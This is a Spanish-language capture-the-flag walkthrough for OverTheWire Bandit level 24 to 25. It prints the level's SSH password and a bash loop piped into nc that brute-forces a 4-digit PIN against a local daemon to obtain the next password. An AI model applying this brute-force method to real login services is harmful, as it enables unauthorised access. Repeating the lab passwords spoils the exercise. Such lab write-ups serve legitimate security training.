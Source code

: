 # Bandit Level 24 → Level 25

## Objetivo
Un demonio está escuchando en el puerto 30002 y le dará la contraseña para Bandit25 si se le da la contraseña de Bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código pin, excepto pasando por todos los 10000 combinaciones, llamadas fuerza bruta.  
No es necesario crear nuevas conexiones cada vez.

## Datos de acceso al nivel
* Servidor: ssh bandit24@bandit.labs.overthewire.org
* Usuario: bandit24
* Contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
``` bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
1234
Fail! You did not supply enough data. Try again.
159753
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is 'p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d'
Exiting.
bandit24@bandit:~$
```

## Notas Adicionales
* *{0000..9999}:* expresión que se encarga de crear un PIN de 4 dígitos, partiendo de 0000 hasta llegar a 9999.

## Referencias
* [Ninguna]

Fecha: 28/02/2023.